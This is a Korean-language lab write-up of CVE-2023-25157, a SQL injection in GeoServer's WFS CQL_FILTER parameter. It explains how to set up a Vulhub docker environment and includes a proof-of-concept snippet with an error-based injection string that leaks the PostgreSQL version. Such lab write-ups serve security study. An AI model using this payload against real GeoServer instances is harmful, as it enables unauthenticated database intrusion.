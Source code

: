 # geoserver CVE-2023-25157
> 화이트햇 3기 [30반] 김정우
---
github 링크 - https://github.com/custiya/geoserver-CVE-2023-25157 - 수정하기

### 취약점 요약
* CVE-2023-25157는 GeoServer라는 오픈소스 지도 데이터 서비스 웹 애플리케이션에 대해 발생한 SQLi 취약점
* GeoServer 2.22.0 이하의 일부 버전에서 발생
* WFS(Web Feature Service) 요청의 CQL_FILTER라는 파라미터가 취약함
* 인증없이 해당 API에 접근 가능하다면 누구든 이용 가능

### 환경 구성
* docker compose up -d 커맨드로 테스트 환경 실행
* http://your-ip:8080/geoserver 로 페이지에 접속 가능
* 먼저 PostGIS 데이터 저장소가 포함된 기존 작업 공간발견해야 함
* Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 존재
    * 작업 공간 이름 : vulhub
    * 데이터 저장소 이름 : pg
    * 테이블 이름 : example
    * 사용한 속성 : name

### poc.py
* 위에서 서술했던 내용을 기반으로 sqli 구문을 만든 형태
* 해당 구문을 request모듈을 사용하여 서버에 전달
* strStartsWith(name,'x'') = true
    * x 뒤의 '를 하나 더 추가하며 sql 문법 파괴
* and 1=(SELECT CAST ((SELECT version()) AS integer))
    * version() 함수는 PostgreSQL의 현재 버전을 반환하는 함수이며, 문자열
    * CAST(... AS integer)는 강제로 정수로 변환하므로 오류가 발생
    * 서버는 에러 메시지를 반환하게 되어, Blind SQL Injection 테스트가 가능
```
# 대상 URL
url = "http://localhost:8080/geoserver/ows"

# CQL_FILTER에 들어갈 원본 인젝션 문자열 (URL 디코딩된 상태)
cql_filter = "strStartsWith(name,'x'') = true and 1=(SELECT CAST ((SELECT version()) AS integer)) -- ') = true"

# 파라미터 설정
params = {
    "service": "wfs",
    "version": "1.0.0",
    "request": "GetFeature",
    "typeName": "vulhub:example",
    "CQL_FILTER": cql_filter
}
```